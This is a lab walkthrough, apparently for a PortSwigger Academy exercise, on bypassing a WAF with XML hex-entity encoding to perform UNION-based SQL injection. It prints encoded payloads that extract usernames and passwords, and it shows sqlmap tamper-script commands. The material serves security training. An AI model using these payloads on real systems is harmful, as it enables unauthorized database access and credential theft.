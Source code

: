 ```yaml
---
Difficulty: Practitioner
---
```

[![VIDEO WALKTHROUGH](https://img.youtube.com/vi/2iqMm0gMyHk/0.jpg)](https://youtu.be/2iqMm0gMyHk "SQL injection with Filter Bypass via XML Encoding")

## Background
You can perform SQL injection attacks using any controllable input that is processed as a SQL query, e.g. some websites take input in JSON/XML format and use this to query the database.

Different formats may even provide alternative ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are otherwise blocked due to WAFs and other defense mechanisms.

Weak implementations often just look for common SQL injection keywords within the request and may be bypassed by simply encoding or escaping characters in the prohibited keywords.

The following example uses an XML escape sequence to encode the `S` character in `SELECT`:
```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```
This will be decoded server-side before being passed to the SQL interpreter.

## Challenge Description
>This [lab](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding) contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

>The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## Solution
Modify the POST request to include a `'` and we get an error "Attack detected".
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1'</productId>
	<storeId>1</storeId>
</stockCheck>
```

Similarly, when we input a keyword like `SELECT` or `UNION` we get "Attack detected".
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 UNION</productId>
	<storeId>1</storeId>
</stockCheck>
```

When we try `&#x53;ELECT` there is no error.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 &#x53;ELECT</productId>
	<storeId>1</storeId>
</stockCheck>
```

So we encode `UNION SELECT username FROM users` using the CyberChef encoder.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</productId>
	<storeId>1</storeId>
</stockCheck>
```

Unfortunately, this returns `0` but if we move the payload to the `<storeId>`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
</stockCheck>
```

The request returns a list of users.
```txt
carlos
administrator
382 units
wiener
```

Switch the parameter to password, e.g. `UNION SELECT password FROM users`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;</storeId>
</stockCheck>
```

This is fine but good practice (imagine we have thousands of users) to use `WHERE` clause to filter by username, e.g. `UNION SELECT password FROM users WHERE username = 'administrator'`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x57;&#x48;&#x45;&#x52;&#x45;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x3d;&#x20;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;</storeId>
</stockCheck>
```

Recover credentials so now we can login with `administrator:<REDACTED>`.

### Bonus - SQLMap Tamper Scripts
Now for the SQLMap approach. First, list the `-h` and `-hh` then show how we can list the potential `tamper` scripts with `sqlmap --list-tampers`:
```txt
* decentities.py - HTML encode in decimal (using code points) all characters (e.g. ' -> &#39;)
* hexentities.py - HTML encode in hexadecimal (using code points) all characters (e.g. ' -> &#x31;)
* htmlencode.py - HTML encode (using code points) all non-alphanumeric characters (e.g. ' -> &#39;)
```

Unfortunately, none of these worked - was expecting `hexentities.py` to work for sure. Increase verbosity to identify the issues.
```bash
sqlmap -r new.req --batch --tamper=hexentities -v 6
```

See the ouput `"This lab is not accessible over HTTP"` so we need HTTPS.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl
```

Still not working, might be better to debug by proxying through burp.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl --proxy=http://127.0.0.1:8080
```

OK, so payload looks like.
```
&amp;#x31;&amp;#x20;&amp;#x4f;&amp;#x52;&amp;#x44;&amp;#x45;&amp;#x52;&amp;#x20;&amp;#x42;&amp;#x59;&amp;#x20;&amp;#x39;&amp;#x37;&amp;#x32;&amp;#x32;&amp;#x2d;&amp;#x2d;&amp;#x20;&amp;#x49;&amp;#x76;&amp;#x53;&amp;#x42;
```

But we don't want the `&amp;` - checked `-hh` and found  `--skip-urlencode`.
```bash
sqlmap -r new.req --batch --tamper=hexentities --force-ssl --proxy=http://127.0.0.1:8080 --skip-urlencode
```

This doesn't work and either does `--no-escape` - I tried to manually adjust the SQLMap code in both `convert.py` and `hexentities.py` but actually the payload looks ok when checking verbose mode.
```txt
[PAYLOAD] &#x35;&#x36;&#x32;&#x30;
```
It's only in the actual HTTP request POST data where we see.
```txt
&amp;#x35;&amp;#x36;&amp;#x32;&amp;#x30;
```

I didn't find a working solution for SQLMap, if you know how to prevent the encoding of `&amp;` leave a message on the [YT video](https://www.youtube.com/watch?v=2iqMm0gMyHk) or DM me on [Twitter](https://twitter.com/_CryptoCat) 🙂

## Resources
- [CyberChef: Convert ASCII chars to HTML entities](https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(true,'Hex%20entities')&input=VEVTVA)
- [Intigriti SQLi thread](https://twitter.com/intigriti/status/1612444237106126850)